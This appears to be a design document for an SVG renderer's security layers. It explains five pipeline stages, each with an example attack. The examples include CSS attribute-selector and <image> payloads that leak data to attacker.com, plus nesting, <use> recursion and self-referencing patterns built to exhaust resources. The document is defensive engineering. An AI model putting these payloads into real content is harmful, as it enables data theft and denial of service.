

## SVG rendering pipeline & security layers



The five layers defend against two kinds of attack:

1. **Resource exhaustion** — wastes CPU, memory, or stack until the engine
   hangs or crashes (DoS). Elements: nested `<g>`/`<svg>`, `<use>`,
   `<pattern>`, entity expansion.
2. **Data exfiltration** — steals readable data and leaks it to an attacker
   server. Elements: `<style>`, `<image>`, `@import`, `@font-face`.

The same category can appear at more than one stage: layers 1, 4 and 5 all
defend against resource exhaustion, and layers 2 and 3 both defend against
data exfiltration — each guards a different stage of the pipeline.

### XML input validation (Stage 1 — Parse)
**Category:** resource exhaustion — deep nesting
**Example:**
```svg
<svg><g><g><g> <!-- …100,000 nested <g>… --> </g></g></g></svg>
```
**Solution:** blocks XXE and entity-expansion bombs, and limits nesting depth
and element count during tokenization.

### CSS injection guard (Stage 2 — Style)
**Category:** data exfiltration — CSS attribute-selector leak
**Example:**
```svg
<svg><style>
  input[value^="a"] { background: url(https://attacker.com/?v=a); }
</style></svg>
```
**Solution:** blocks injected SVG `<style>` from reading host-document data via
attribute selectors + `url()`.

### Fetch allowlist (Stage 3 — Fetch)
**Category:** data exfiltration — remote fetch
**Example:**
```svg
<svg>
  <!-- blocked by: Content-Security-Policy: img-src 'self' -->
  <image href="https://attacker.com/collect?d=SECRET" width="1" height="1"/>
</svg>
```
**Solution:** the engine checks every fetch against the document's Content
Security Policy (CSP) before sending it. A URL not allowed by the policy, like
`attacker.com`, is dropped before the request leaves the process, so no
`<image>`, `@import`, or `@font-face` fetch can leak data to it.

### Expansion & geometry limits (Stage 4 — Build)
**Category:** resource exhaustion — `<use>` mutual recursion
**Example:**
```svg
<svg><g id="l1"><use href="#l2"/></g><g id="l2"><use href="#l1"/></g></svg>
```
**Solution:** limits `<use>` fan-out and extreme `viewBox`, blur, path, and
stroke values before the render tree is built.

### Render safety guard (Stage 5 — Render)
**Category:** resource exhaustion — self-referencing pattern
**Example:**
```svg
<svg><pattern id="p" width="10" height="10"><rect width="10" height="10" fill="url(#p)"/></pattern>
<rect width="100" height="100" fill="url(#p)"/></svg>
```
**Solution:** validates geometry and text and limits self-referencing patterns
before drawing, so crafted input can't crash the renderer or execute code.
